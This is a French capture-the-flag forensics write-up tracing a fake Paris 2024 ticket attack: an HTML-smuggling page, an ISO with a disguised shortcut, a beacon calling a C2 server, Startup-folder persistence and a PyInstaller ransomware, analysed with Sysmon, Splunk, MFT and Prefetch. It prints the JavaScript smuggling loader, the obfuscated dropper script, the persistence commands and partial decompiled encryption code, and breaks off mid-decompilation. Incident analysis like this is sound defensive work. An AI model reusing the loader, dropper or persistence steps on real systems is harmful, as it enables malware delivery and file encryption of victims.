

# Writeup - I want my tickets back


:::warning
Attention lors de la manipulation des fichiers

:::


:::info
L’attaque se déroule sur plusieurs jours

:::

# **Chall 1**

## Énoncé

Jean a découvert un colis dans sa boîte aux lettres. À l'intérieur, il se trouvait une clé USB et une lettre lui annonçant qu'il avait gagné des billets pour les Jeux Olympiques de Paris 2024. La lettre précisait que les billets étaient sur la clé USB. Intrigué, Jean a inséré la clé dans son ordinateur et a ouvert le fichier : une note d'information au format HTML. Conformément aux instructions, le billet s'est téléchargé automatiquement. Après avoir consulté son billet, Jean s'est rendu compte que tout cela n'était qu'une supercherie et, déçu, il s'est absenté pendant quelques jours. À son retour, Jean a été stupéfait de constater qu'il était désormais incapable d'ouvrir ses fichiers. Tous présentaient désormais l'extension .enc.


Format de flag : **TXXXX.XXX:Hash**

Fichier fourni : `Informations.html`


[Informations.html 432937](attachments/a2ac5a78-c611-4e31-937f-18b883330446.html)

## Solve

On nous fournit un fichier HTML nommé `Informations.html`, probablement la note d’information ouverte par Jean.

Si l'on ouvre le fichier HTML dans un navigateur, un fichier `JO-PARIS2024-Billets.iso` est téléchargé automatiquement.

 

Si on édit le fichier, on peut voir du code **JavaScript** dans une balise `<script>`. On comprend qu’un fichier est reconstruit et téléchargé si on ouvre le fichier HTML avec un navigateur. (Le fichier a été préalablement chiffré avec un XOR et encodé en base64) :

```javascript
    <script>
        function b64tAb(base64) {
           var bs = window.atob(base64);
           var len = bs.length;

           var b = new Uint8Array( len );
           for (var i = 0; i < len; i++) { b[i] = bs.charCodeAt(i); }
           return b;
        }
        function d(i,k) {
           var out = new Uint8Array(i)
           for(var i = 0;i<out.length;i++) {
              out[i] = out[i]^k
           }
           return out
        }     
        var f = "VVVVVVVVVVVVVVVVVVVVVVVVVVVV[...]VVVVVVVVVVVVVVVVVVVVVVVVVVVVVVV"
        var fd = b64tAb(f)
        var pf = d(fd,85)
        var blob = new Blob([pf], {type: 'None'});
        var a = document.createElement('a')
        document.body.appendChild(a)
        a.style = "display: none"
        var url = window.URL.createObjectURL(blob)
        console.log(blob)
        a.href = url
        a.download = "JO-PARIS2024-Billets.iso"
        a.click()
     </script>
```

Le fichier téléchargé est une ISO :

```bash
$ file JO-PARIS2024-Billets.iso 
JO-PARIS2024-Billets.iso: ISO 9660 CD-ROM filesystem data '21_03_2024'
```

Si on monte l’ISO sur une machine Windows avec les configurations de base, pour un utilisateur lambda, le contenu de l’ISO ressemble à une image :

 

Pour un utilisateur un peu plus averti ou avec les paramètres "afficher les éléments masqués" et "afficher les extensions des fichiers" activés, on comprend que l’image est en réalité un raccourci (LNK). De plus, on peut remarquer la présence de 3 autres fichiers avec l’attribut "caché".

* `billets.png`
* `img.jpg`
* `rickroll.cmd`

 

Le LNK lance le script `rickroll.cmd`:

```bash
$ cat JO-PARIS2024-Billets.lnk 
L�F�E�P�O� �:i�+00�/D:\f2rickroll.cmdJ  ��.rickroll.cmd
                                                       shell32.dll
```

Le script `rickroll.cmd`est légèrement obfusqué :

```bash
$ cat rickroll.cmd            
@echo off
SETLOCAL EnableDelayedExpansion

start img.jpg

set exe2=bi
set u168=ll
set u798=e
set exe1=ts
set u415=.pn
set ia=g
set v152=%temp%\%random%.%random%
echo f|xcopy %exe2%%u168%%u798%%exe1%%u415%%ia% %v152% /h /s /e /f
start /B %v152%                                    
```

On comprend que le script :

* Lance l’image `img.jpg`

 

* Copie et renomme le fichier `billets.png` dans `%temp%` (=`C:\Users\<user>\AppData\Local\Temp`)
* Il exécute `billets.png`

Si on effectue un `file` sur les images, on voit que `billets.png` est en réalité un exécutable :

```bash
$ file billets.png img.jpg 
billets.png: PE32+ executable (GUI) x86-64 (stripped to external PDB), for MS Windows, 6 sections
img.jpg:     JPEG image data, JFIF standard 1.01, aspect ratio, density 1x1, segment length 16, progressive, precision 8, 1400x1050, components 3
```

Si on lance quelques `strings`sur l’exe, on peut obtenir quelques informations :

```bash
$ strings billets.png  
!This program cannot be run in DOS mode.
.text
`.data
.rdata
@.edata
@.idata
.reloc
[...]
demon.x64.exe
```

```bash
$ strings -el billets.png
C:\Windows\System32\notepad.exe
C:\Windows\SysWOW64\notepad.exe
POST
87.19.156.68
Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.110 Safari/537.36
Content-type: */*
```

On a récupéré une IP, un User-Agent et le nom original du fichier `demon.x64.exe`. Ce fichier semble être le fichier malveillant recherché :

```bash
$ sha256sum billets.png  
3cba38fdf84cf7ea3334040c8b4539403e73adc185d612085628042a695e8da3  billets.png
```

Pour conclure, la technique utilisée est le HTML smuggling : [https://attack.mitre.org/techniques/T1027/006/](https://attack.mitre.org/techniques/T1027/006/ "https://attack.mitre.org/techniques/T1027/006/")


**Flag :** `T1027.006:3cba38fdf84cf7ea3334040c8b4539403e73adc185d612085628042a695e8da3`


---

# Chall 2

## Énoncé

Le fichier malveillant communique avec un serveur C2 pour recevoir des instructions. Trouver l’IP et le port du serveur de C2. Format de flag : **IP:PORT du C2**


**Fichier fournit :** `Disk.7z`


## Solve

On nous donne un vmdk. On doit d’abord monter le VMDK.

```bash
$ 7z e Disk.7z
```

* <https://github.com/dfir-scripts/EverReady-Disk-Mount>
* <https://dfir-scripts.medium.com/forensic-mounting-of-disk-images-using-ubuntu-20-04-fe8165fca3eb>


### Monter le VMDK

```bash
$ wget https://raw.githubusercontent.com/dfir-scripts/EverReady-Disk-Mount/master/ermount.sh && chmod +x ermount.sh
```

```bash
./ermount.sh -i disk.vmdk -m mountpoint
```

```bash
Use ERMount to mount a disk, disk image
Image type VMDK
Source Information
Disk.vmdk: VMware4 disk image
VMDK
modprobe nbd
 Excecuting:  qemu-nbd -r -c /dev/nbd1 Disk.vmdk
/dev/nbd1
nbd mount successful!
No errors detected.
 1      2048    206847    204800  100M EFI system partition         fd0d1001-1040-4628-8153-b5172512f57d
Set Partition Offset
Disk /dev/nbd1: 60 GiB, 64424509440 bytes, 125829120 sectors
Units: sectors of 1 * 512 = 512 bytes
Sector size (logical/physical): 512 bytes / 512 bytes
I/O size (minimum/optimal): 512 bytes / 512 bytes
Disklabel type: gpt
Disk identifier: 88F6855E-90FE-40BB-B778-0CF3D393311E

Device          Start       End   Sectors  Size Type
/dev/nbd1p1      2048    206847    204800  100M EFI System
/dev/nbd1p2    206848    239615     32768   16M Microsoft reserved
/dev/nbd1p3    239616 124739248 124499633 59.4G Microsoft basic data
/dev/nbd1p4 124739584 125825023   1085440  530M Windows recovery environment

Enter the starting block: 239616
Offset: 239616 * 512 = 122683392

Executing Mount Command.....
Defaults file system type is ntfs, see mount man pages for a complete list
Other common filesystem types: vfat, ext3, ext4, hfsplus, iso9660, udf
mount -t ntfs -o ro,loop,show_sys_files,streams_interface=windows,offset=122683392 /dev/nbd1 mnt

Disk.vmdk Mounted at: mnt

'$AttrDef'  '$LogFile'      '$UpCase'                  PerfLogs              'System Volume Information'
'$BadClus'  '$MFT'          '$Volume'                 'Program Files'         Users
'$Bitmap'   '$MFTMirr'      '$WinREAgent'             'Program Files (x86)'   Windows
'$Boot'     '$Recycle.Bin'  'Documents and Settings'   ProgramData            pagefile.sys
'$Extend'   '$Secure'        DumpStack.log.tmp         Recovery               swapfile.sys

Success!
```


---

On doit trouver **l’IP** et le **port** du C2 avec lequel `billets.png`communique. On a pas de PCAP. Deux solutions se proposent à nous.


### Solution 1 - Analyse dynamique

Avec l’étape précédente, nous savons que le C2 a été copié dans `temp` avant d’être exécuté : 

Nous savons que le fichier est dans : 

```powershell
set v152=%temp%\%random%.%random%
```

Pour comprendre à quoi correspond %random%, on peut ouvrir un terminal sur Windows : 

```powershell
> echo %random%.%random%
13422.28820
```

On trouver un fichier nommé `12601.27496`

On le renomme : `12601.exe`

On monte une VM Windows, on exécute le beacon avec Wireshark en arrière-plan.

En triant par destination, nous devrions voir peu de paquets capturés. Nous trouvons des communications HTTPS.

 


### Solution 2 - Chercher dans les fichiers

On cherche dans les fichiers des indices :

```bash
$ cd Users/Jean/Documents 
                                                                                                                                                                                                                                            
$ tree
.
├── datasheets
│   ├── 744774222.enc
│   ├── fm600tu-3a_e.enc
│   └── read_datasheet.enc
├── desktop.ini
└── secret.enc
```

On note la présence du fichier `secret.enc`(chiffré) :

```bash
$ cat secret.enc  
�������������j��q��|�e��H�~L�yi?V�
                                  �Ǡ���>Xs▒���j�����                                                                                                                                                                                                                                            
```

Dans les fichiers téléchargés, on note la présence de Sysmon :

```bash
$ cd Users/Jean/Downloads 
                                                                                                                                                                                                                                            
$ ls
JO-PARIS2024-Billets.enc  Sysmon64.enc  desktop.ini  sysmonconfig.enc
```

On peut supposer que Sysmon est installé sur la machine.

> *System Monitor* (*Sysmon*) est un service système Windows et le pilote de périphérique permanent entre les redémarrages du système pour surveiller et journaliser l’activité du système dans le journal des événements Windows une fois installé sur un système. Il fournit des informations détaillées sur les créations de processus, les **connexions réseau** et les modifications apportées à l’heure de création de fichier.

On note l'information : Il fournit des détails sur les **connexions réseau**.

On peut vérifier que Sysmon est bien installé de plusieurs manières :

* regarder dans la ruche `SYSTEM` la présence de la clé de registre `HKLM\SYSTEM\ControlSet001\Services\sysmonDrv\Parameters`:

```python
$ python3                 
Python 3.11.6 (main, Oct  8 2023, 05:06:43) [GCC 13.2.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> from regipy.registry import RegistryHive
>>> reg = RegistryHive('/Path/to/mnt/Windows/System32/config/SYSTEM')
>>> reg.get_key('System\ControlSet001\Services\sysmonDrv').get_values(as_json=True)
[Value(name='Type', value=1, value_type='REG_DWORD', is_corrupted=False), Value(name='Start', value=0, value_type='REG_DWORD', is_corrupted=False), Value(name='ErrorControl', value=1, value_type='REG_DWORD', is_corrupted=False), Value(name='ImagePath', value='SysmonDrv.sys', value_type='REG_EXPAND_SZ', is_corrupted=False), Value(name='DisplayName', value='SysmonDrv', value_type='REG_SZ', is_corrupted=False), Value(name='Description', value='System Monitor driver', value_type='REG_SZ', is_corrupted=False)]
>>> exit()
```

* vérifier la présence du fichier `.evtx` dédié.

```bash
$ ls Windows/System32/winevt/Logs | grep -i sysmon
Microsoft-Windows-Sysmon%4Operational.evtx
```

* vérifier la présence de l’executable et du driver (Path : `C:\Windows\`)

```bash
$ ls -al Windows | grep -i sysmon
-rwxrwxrwx 1 root root  4545344 Mar 22 13:11 Sysmon64.exe
-rwxrwxrwx 2 root root   176648 Mar 22 15:34 SysmonDrv.sys
```

C’est le fichier de log qui va nous interésser. On peut analyser les `.evtx` depuis l’event viewer de Windows, avec des tools comme <https://github.com/omerbenamram/evtx> ou depuis un SIEM. J’ai choisi Splunk

On sait que notre fichier malveillant a été copié dans `%temp%`(=`C:\Users\Jean\AppData\Local\Temp\28989.30020`) avant d’être exécuté.

On filtre pour avoir les Event ID 3.

> Event ID 3 - Network connection : The network connection event logs TCP/UDP connections on the machine. It is disabled by default. Each connection is linked to a process through the ProcessId and ProcessGUID fields. The event also contains the source and destination host names IP addresses, port numbers and IPv6 status.

On fait notre recherche Splunk :

```bash
index="mctf-2024" "Event.System.Channel"="Microsoft-Windows-Sysmon/Operational" "Event.System.EventID"=3 "Event.EventData.Image"="C:\\Users\\Jean\\AppData\\Local\\Temp\\*"
| table Event.EventData.Image, Event.EventData.DestinationIp, Event.EventData.DestinationPort
```


 


**Flag :** `87.19.156.68:443`


# Chall 3

## Énoncé

Pour s'assurer du maintien de l'accès à la machine cible, l'attaquant a mis en place de la persistance. Veuillez identifier la technique de persistance utilisée et fournir le nom du fichier associé.


Format de flag : **TXXXX.XXX:filename**


Fichier fournit : `Disk.7z`


## Solve

### Logs PowerShell Operational

Si on parcourt rapidement les logs PowerShell-Operational, on remarque des commandes encodées en base64, ce qui est assez suspect.

* Event ID 4103 - Information - Execution du pipeline
* Event ID 4104 - Commenté - Exécuter une commande distante

```bash
index="mctf-2024" "Event.System.Channel"="Microsoft-Windows-PowerShell/Operational" ("Event.System.EventID"=4103 OR "Event.System.EventID"=4104)
```

 


On ajuste la recherche pour obtenir toutes les commandes encodées :

```bash
index="mctf-2024" "Event.System.Channel"="Microsoft-Windows-PowerShell/Operational" "Event.System.EventID"=4104 "powershell* -enc*" 
| table Event.EventData.ScriptBlockText
```

 


Si on décode la base64, on obtient les commandes suivantes :

```powershell
Get-ChildItem -Force C:\Users\Jean\Documents\                                                                                                                    
Set-ItemProperty -Path "C:\Users\Jean\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\taskkill.exe" -Name Attributes -Value 0
Copy-Item "C:\Users\Jean\AppData\Local\Temp\12601.27496" -Destination "C:\Users\Jean\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\taskkill.exe"
Get-ChildItem -Force "C:\Users\Jean\AppData\Local\Temp"
net config 
workstation systeminfo
ipconfig /all
```

On peut voir que le beacon `12601.27496` a été copier et renommé dans `C:\Users\Jean\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\taskkill.exe`.


### Event Viewer

 


Sur google : `"mitre" "attack" "AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup"` → <https://attack.mitre.org/techniques/T1547/001/>


 

 


**Flag :** `T1547.001:taskkill.exe`


# Chall 4

## Énoncé

Les fichiers de Jean ne sont plus lisibles. Trouver le fichier malveillant responsable. Donner le hash SHA256 et donner l’heure d’exécution du fichier en UTC.


**Format de flag : hash:HH:MM:SS**


Fichier fournit : `Disk.7z`


## Solve

### Solution 1 - Sysmon logs 

#### Trouver le cryptolocker et calculer le hash

Les fichiers ont été chiffrés, donc on cherche un CryptoLocker. On sait que des logs Sysmon sont présents. Cet article <https://posts.bluraven.io/defeating-ransomware-by-using-sysmon-and-powershell-b671920f3bb1> explique qu’il faut chercher les évènements `Sysmon - Event ID 11 - FileCreate`. Avec un peu de doc ou en parcourant les logs Sysmon **Event ID 11**, on remarque le champ `TargetFilename`. On déduit que notre cryptolocker a **créé** nos fichiers chiffrés, on peut chercher le fichier `C:\\Users\\Jean\\Documents\\secret*`(avec une `*`) car on ne connaît pas l’extension d’origine :

```python
index="mctf-2024" "Event.System.Channel"="Microsoft-Windows-Sysmon/Operational" "Event.System.EventID"=11 Event.EventData.TargetFilename="C:\\Users\\Jean\\Documents\\secret*"
| table Event.EventData.Image, Event.EventData.TargetFilename
```

On obtient un résultat : 

 

L’exécutable responsable de la création du fichier chiffré : `C:\Users\Jean\AppData\Local\Temp\svchost.exe`. On remarque le `TargetFilename`est `secret.txt`ce qui signifie que le cryptolocker a d’abord chiffré le fichier et l’a renommé avec l’extension `.enc`dans un second temps.

On peut faire un sha256 de notre fichier en allant le chercher dans le disque :

```powershell
sha256sum Users/Jean/AppData/Local/Temp/svchost.exe  
784d2ae1fdb3faa7c87c2b971562b193d6894f485d061ee9075c468beec9d870  Users/Jean/AppData/Local/Temp/svchost.exe
```

[svchost.exe 6704972](attachments/93276a20-96b2-4596-98c5-0ed2e42b411c.exe)


#### Trouver l’heure d‘exécution

Avec les évènements `Sysmon - Event ID 1 - Process Creation`, on peut obtenir l’heure d’exécution du CryptoLocker:

 


### Solution 2 - MFT + Prefetch

#### Trouver le CryptoLocker et calculer le hash

Sur Linux, la MFT est directement accessible si le VMDK a été monté.

Sur Windows on peut voir une heure de modification à 12:41 (11:41 en UTC) :

 


Pour exporter la MFT sous Windows on peut utiliser : `https://gist.github.com/secabstraction/4044f4aadd3ef21f0ca9`

Dans un PowerShell avec les droits **d’administration** :

```powershell
> . .\Export-MFT.ps1
> Export-MFT -Volume E

MFT Volume   : E
ComputerName : DESKTOP-FSHLV0M
NetworkPath  : \\DESKTOP-FSHLV0M\C$\Users\Forensic\AppData\Local\Temp\slir5krp.x13
MFT File     : C:\Users\Forensic\AppData\Local\Temp\slir5krp.x13
MFT Size     : 297 MB

> .\MFTECmd.exe -f "C:\Users\Forensic\Desktop\slir5krp.x13" --csv "C:\Users\Forensic\Desktop\" --csvf mft.csv
```


On peut utiliser **TimelineExplorer** pour consulter le CSV de la MFT. En triant par `Last Modified`, on remarque qu'avant le chiffrement des fichiers, un `SVCHOST.EXE` a été créé dans le répertoire temporaire, ce qui n'est pas un comportement normal : 

 


[svchost.exe 6704972](attachments/d067ed2c-a855-4dfc-97ea-372081499d2c.exe)


#### Trouver l’heure d‘exécution

`C:\Windows\Prefetch`. Les fichiers Prefetch ont l’extension `.pf`.

> L'horodatage de création d'un fichier Prefetch correspond à la première exécution de l'application.

On récupère tous les Prefetch et on parse avec l’outil [PECmd](https://github.com/EricZimmerman/PECmd?tab=readme-ov-file) de EricZimmerman :

```powershell
PECmd.exe -d "Prefetch" --csv "./" --csvf mctf-prefetch.csv --json "./"  --jsonf mctf-prefetch.json
```

[mctf-prefetch.json 1986709](attachments/a24055a9-c95d-44ca-a947-94ca436a687e.json)

On cherche dans les données `\\USERS\\JEAN\\APPDATA\\LOCAL\\TEMP\\SVCHOST.EXE`, on tombe sur le prefetch : `SVCHOST.EXE-F660E5C4.pf`

[SVCHOST.EXE-F660E5C4.pf 14261](attachments/756f3a5a-419f-4843-a129-6088611b3a8a.false)

```powershell
PECmd.exe -f SVCHOST.EXE-F660E5C4.pf

PECmd version 1.5.0.0

Author: Eric Zimmerman (saericzimmerman@gmail.com)
https://github.com/EricZimmerman/PECmd

Command line: -f SVCHOST.EXE-F660E5C4.pf

Keywords: temp, tmp

Processing SVCHOST.EXE-F660E5C4.pf

Created on: 2024-04-05 21:23:15
Modified on: 2024-03-29 11:41:52
Last accessed on: 2024-04-05 21:36:23

Executable name: SVCHOST.EXE
Hash: F660E5C4
File size (bytes): 76 990
Version: Windows 10 or Windows 11

Run count: 2
Last run: 2024-03-29 11:41:52
Other run times: 2024-03-29 11:41:52

Volume information:

#0: Name: \VOLUME{01da7d5c8eb7b64e-be8ec198} Serial: BE8EC198 Created: 2024-03-23 19:59:04 Directories: 16 File references: 61

Directories referenced: 16

00: \VOLUME{01da7d5c8eb7b64e-be8ec198}\$EXTEND
01: \VOLUME{01da7d5c8eb7b64e-be8ec198}\USERS
02: \VOLUME{01da7d5c8eb7b64e-be8ec198}\USERS\JEAN
03: \VOLUME{01da7d5c8eb7b64e-be8ec198}\USERS\JEAN\APPDATA
04: \VOLUME{01da7d5c8eb7b64e-be8ec198}\USERS\JEAN\APPDATA\LOCAL
05: \VOLUME{01da7d5c8eb7b64e-be8ec198}\USERS\JEAN\APPDATA\LOCAL\TEMP (Keyword True)
06: \VOLUME{01da7d5c8eb7b64e-be8ec198}\USERS\JEAN\APPDATA\LOCAL\TEMP\_MEI49322 (Keyword True)
07: \VOLUME{01da7d5c8eb7b64e-be8ec198}\USERS\JEAN\APPDATA\LOCAL\TEMP\_MEI49322\CRYPTO (Keyword True)
08: \VOLUME{01da7d5c8eb7b64e-be8ec198}\USERS\JEAN\APPDATA\LOCAL\TEMP\_MEI49322\CRYPTO\CIPHER (Keyword True)
09: \VOLUME{01da7d5c8eb7b64e-be8ec198}\USERS\JEAN\APPDATA\LOCAL\TEMP\_MEI49322\CRYPTO\HASH (Keyword True)
10: \VOLUME{01da7d5c8eb7b64e-be8ec198}\USERS\JEAN\APPDATA\LOCAL\TEMP\_MEI49322\CRYPTO\PROTOCOL (Keyword True)
11: \VOLUME{01da7d5c8eb7b64e-be8ec198}\USERS\JEAN\APPDATA\LOCAL\TEMP\_MEI49322\CRYPTO\UTIL (Keyword True)
12: \VOLUME{01da7d5c8eb7b64e-be8ec198}\WINDOWS
13: \VOLUME{01da7d5c8eb7b64e-be8ec198}\WINDOWS\SYSTEM32
14: \VOLUME{01da7d5c8eb7b64e-be8ec198}\WINDOWS\SYSTEM32\EN-GB
15: \VOLUME{01da7d5c8eb7b64e-be8ec198}\WINDOWS\WINSXS\AMD64_MICROSOFT.WINDOWS.COMMON-CONTROLS_6595B64144CCF1DF_6.0.19041.1110_NONE_60B5254171F9507E

Files referenced: 102

00: \VOLUME{01da7d5c8eb7b64e-be8ec198}\WINDOWS\SYSTEM32\NTDLL.DLL
01: \VOLUME{01da7d5c8eb7b64e-be8ec198}\USERS\JEAN\APPDATA\LOCAL\TEMP\SVCHOST.EXE (Executable: True)
02: \VOLUME{01da7d5c8eb7b64e-be8ec198}\WINDOWS\SYSTEM32\KERNEL32.DLL
03: \VOLUME{01da7d5c8eb7b64e-be8ec198}\WINDOWS\SYSTEM32\KERNELBASE.DLL
04: \VOLUME{01da7d5c8eb7b64e-be8ec198}\WINDOWS\SYSTEM32\LOCALE.NLS
[...]
89: \VOLUME{01da7d5c8eb7b64e-be8ec198}\USERS\JEAN\DOWNLOADS\JO-PARIS2024-BILLETS.ISO
90: \VOLUME{01da7d5c8eb7b64e-be8ec198}\USERS\JEAN\DOWNLOADS\SYSMONCONFIG.XML
91: \VOLUME{01da7d5c8eb7b64e-be8ec198}\USERS\JEAN\DOWNLOADS\SYSMON\EULA.TXT
92: \VOLUME{01da7d5c8eb7b64e-be8ec198}\USERS\JEAN\DOWNLOADS\SYSMON\SYSMON.EXE
93: \VOLUME{01da7d5c8eb7b64e-be8ec198}\USERS\JEAN\DOWNLOADS\SYSMON\SYSMON64.EXE
94: \VOLUME{01da7d5c8eb7b64e-be8ec198}\USERS\JEAN\DOWNLOADS\SYSMON\SYSMON64A.EXE
95: \VOLUME{01da7d5c8eb7b64e-be8ec198}\USERS\JEAN\DOCUMENTS\SECRET.TXT
96: \VOLUME{01da7d5c8eb7b64e-be8ec198}\USERS\JEAN\DOCUMENTS\DATASHEETS\744774222.PDF
97: \VOLUME{01da7d5c8eb7b64e-be8ec198}\USERS\JEAN\DOCUMENTS\DATASHEETS\FM600TU-3A_E.PDF
98: \VOLUME{01da7d5c8eb7b64e-be8ec198}\USERS\JEAN\DOCUMENTS\DATASHEETS\READ_DATASHEET.PDF
99: \VOLUME{01da7d5c8eb7b64e-be8ec198}\USERS\JEAN\DESKTOP\CALENDRIER-PAR-EPREUVES-DES-JEUX-OLYMPIQUES-DE-PARIS-2024.PDF
100: \VOLUME{01da7d5c8eb7b64e-be8ec198}\USERS\JEAN\DESKTOP\INFORMATIONS.HTML
101: \VOLUME{01da7d5c8eb7b64e-be8ec198}\USERS\JEAN\DESKTOP\MICROSOFT EDGE.LNK


---------- Processed SVCHOST.EXE-F660E5C4.pf in 0,14631520 seconds ----------
```

Il a interagi avec nos fichiers chiffrés et c'est le bon chemin d'exécution : `01: \VOLUME{01da7d5c8eb7b64e-be8ec198}\USERS\JEAN\APPDATA\LOCAL\TEMP\SVCHOST.EXE (Executable: True)`

On peut regarder dans la MFT la date de création de ce prefetch :

 

L’exécutable a été lancé pour la première fois à **11:41:52 UTC**


**Flag :** `784d2ae1fdb3faa7c87c2b971562b193d6894f485d061ee9075c468beec9d870:11:41:52`


# Chall 5

## Énoncé

Déchiffrer les fichiers importants de Jean.


Fichier fournit : `Disk.7z`


## Solve

On a trouvé le fichier malveillant dans l’éatpe précédente, on peut récupérer l’exe dans le dump du disque.

### Trouver le langage et le packer

#### Manuellement

Pour commencer l’analyse du malware, nous avons fait un `file` sur le fichier qui nous indique que c’est PE32 exécutable pour Windows

```powershell
file svchost.exe          
svchost.exe: PE32+ executable (GUI) x86-64, for MS Windows, 7 sections
```


On peut obtenir le format de fichier et la date de compilation (Thu Mar 21 14:32:27 2024 UTC) :

```powershell
objdump -p svchost.exe | more

svchost.exe:     format de fichier pei-x86-64

Caractéristiques 0x22
        executable
        large address aware

Time/Date               Thu Mar 21 14:32:27 2024
Magic                   020b    (PE32+)
MajorLinkerVersion      14
MinorLinkerVersion      38
SizeOfCode              000000000002ae00
SizeOfInitializedData   0000000000017200
SizeOfUninitializedData 0000000000000000
AddressOfEntryPoint     000000000000c330
BaseOfCode              0000000000001000
ImageBase               0000000140000000
SectionAlignment        00001000
FileAlignment           00000200
MajorOSystemVersion     5
MinorOSystemVersion     2
MajorImageVersion       0
MinorImageVersion       0
MajorSubsystemVersion   5
MinorSubsystemVersion   2
Win32Version            00000000
SizeOfImage             00049000
SizeOfHeaders           00000400
CheckSum                00665b82
Subsystem               00000002        (Windows GUI)
DllCharacteristics      0000c160
                                        HIGH_ENTROPY_VA
                                        DYNAMIC_BASE
                                        NX_COMPAT
                                        GUARD_CF
                                        TERMINAL_SERVICE_AWARE
SizeOfStackReserve      00000000001e8480
SizeOfStackCommit       0000000000001000
SizeOfHeapReserve       0000000000100000
SizeOfHeapCommit        0000000000001000
LoaderFlags             00000000
NumberOfRvaAndSizes     00000010
```


La commande `strings -el` permet de se faire une première idée de ce que contient l’exécutable. Des libs crypto et du code python :

```powershell
Py_DecRef
Failed to get address for Py_DecRef
GetProcAddress
Py_DecodeLocale
Failed to get address for Py_DecodeLocale
Py_ExitStatusException
Failed to get address for Py_ExitStatusException
Py_Finalize
Failed to get address for Py_Finalize
Py_InitializeFromConfig
Failed to get address for Py_InitializeFromConfig
Py_IsInitialized
Failed to get address for Py_IsInitialized
Py_PreInitialize
Failed to get address for Py_PreInitialize
PyConfig_Clear
Failed to get address for PyConfig_Clear

bCrypto\Hash\_SHA256.pyd
bCrypto\Hash\_SHA384.pyd
bCrypto\Hash\_SHA512.pyd
bCrypto\Hash\_ghash_clmul.pyd
bCrypto\Hash\_ghash_portable.pyd
bCrypto\Hash\_keccak.pyd
bCrypto\Hash\_poly1305.pyd
bCrypto\Math\_modexp.pyd
bCrypto\Protocol\_scrypt.pyd
bCrypto\PublicKey\_ec_ws.pyd
bCrypto\PublicKey\_ed25519.pyd
bCrypto\PublicKey\_ed448.pyd
bCrypto\PublicKey\_x25519.pyd
bCrypto\Util\_cpuid_c.pyd
bCrypto\Util\_strxor.pyd
```

On peut essayer de trouver la version de python utilisée :

```powershell
strings svchost.exe | grep -i python
Error loading Python DLL '%s'.
Failed to pre-initialize embedded python interpreter!
Failed to allocate PyConfig structure! Unsupported python version?
Failed to set python home path!
Failed to start embedded python interpreter!
bpython310.dll
6python310.dll
```

On semble être sur du `python 3.10`. On peut déduire que le fichier est probablement un programme exécutable écrit en Python. Ce genre d’exe peut être créé à l’aide de packer comme **PyInstaller**. On peut vérifier ça :

```powershell
strings svchost.exe| grep -i pyinstaller
Cannot open PyInstaller archive from executable (%s) or external archive (%s)
PYINSTALLER_STRICT_UNPACK_MODE
PyInstaller: FormatMessageW failed.
PyInstaller: pyi_win32_utils_to_utf8 failed.
```


#### Automatiquement

Sur google `analyse malware linux cheat sheet`

<https://zeltser.com/media/docs/remnux-malware-analysis-tips.pdf>

<https://cyberlab.pacific.edu/resources/reverse-engineering-cheat-sheets/malware-analysis-cheat-sheet.pdf>

 

ou `detect programmation language of exe program github`

On tombe finalement sur  <https://github.com/horsicq/Detect-It-Easy>

 


On sait maintenant que le packer est **Pyinstaller**

Sur google : `pyinstaller unpacker`

On trouve [extremecoders-re/pyinstxtractor](https://github.com/extremecoders-re/pyinstxtractor) et [pyinstxtractor-ng](https://github.com/pyinstxtractor/pyinstxtractor-ng)

### Obtention du code source

Avec l’un ou l’autre, le résultat sera le même :

```bash
> ./pyinstxtractor-ng svchost.exe      
[+] Processing svchost.exe
[+] Pyinstaller version: 2.1+
[+] Python version: 3.10
[+] Length of package: 6433612 bytes
[+] Found 64 files in CArchive
[+] Beginning extraction...please standby
[+] Possible entry point: pyiboot01_bootstrap.pyc
[+] Possible entry point: pyi_rth_inspect.pyc
[+] Possible entry point: main.pyc
[+] Found 144 files in PYZ archive
[+] Successfully extracted pyinstaller archive: svchost.exe

You can now use a python decompiler on the pyc files within the extracted directory
```

```bash
> python3.10 pyinstxtractor/pyinstxtractor.py svchost.exe
[+] Processing svchost.exe
[+] Pyinstaller version: 2.1+
[+] Python version: 3.10
[+] Length of package: 6433612 bytes
[+] Found 64 files in CArchive
[+] Beginning extraction...please standby
[+] Possible entry point: pyiboot01_bootstrap.pyc
[+] Possible entry point: pyi_rth_inspect.pyc
[+] Possible entry point: main.pyc
[+] Found 144 files in PYZ archive
[+] Successfully extracted pyinstaller archive: svchost.exe

You can now use a python decompiler on the pyc files within the extracted directory
```


Sur google : `decompile pyc file python 3.10`

<https://stackoverflow.com/questions/71278961/how-can-i-decompile-pyc-files-from-python-3-10>


```bash
> ./pycdc ../svchost.exe_pyinstxtractor/main.pyc
[..]
def e0(fn, k):
Unsupported opcode: WITH_EXCEPT_START
    cs = 65536
    i = b'\xac\xac'
    v = b'\x00'
    c = b'\x1f\x1f\x1f'
    o = b'\xb5\xb5\xb5\xb5\xb5'
    f = b'\xc8'
    g = b'\xd2\xd2\xd2\xd2'
    e = AES.new(k, AES.MODE_CBC, i + v + c + o + g + f)
# WARNING: Decompyle incomplete
[..]
```


Une fonction n’est pas complètement décompilée.


En regardant les issues du projet : on tombe sur celle-ci : <https://github.com/zrax/pycdc/issues/255>

ou google : `pycdc Unsupported opcode: WITH_EXCEPT_START` <https://corgi.rip/blog/pyinstaller-reverse-engineering/>


Il faut ajouter l’OPCODE ici :

 


On recompile le tout :

```bash
cmake .
make
```

Toujours un opcode pas supporté

```bash
Unsupported opcode: RERAISE
    cs = 65536
    i = b'\xac\xac'
    v = b'\x00'
    c = b'\x1f\x1f\x1f'
    o = b'\xb5\xb5\xb5\xb5\xb5'
    f = b'\xc8'
    g = b'\xd2\xd2\xd2\xd2'
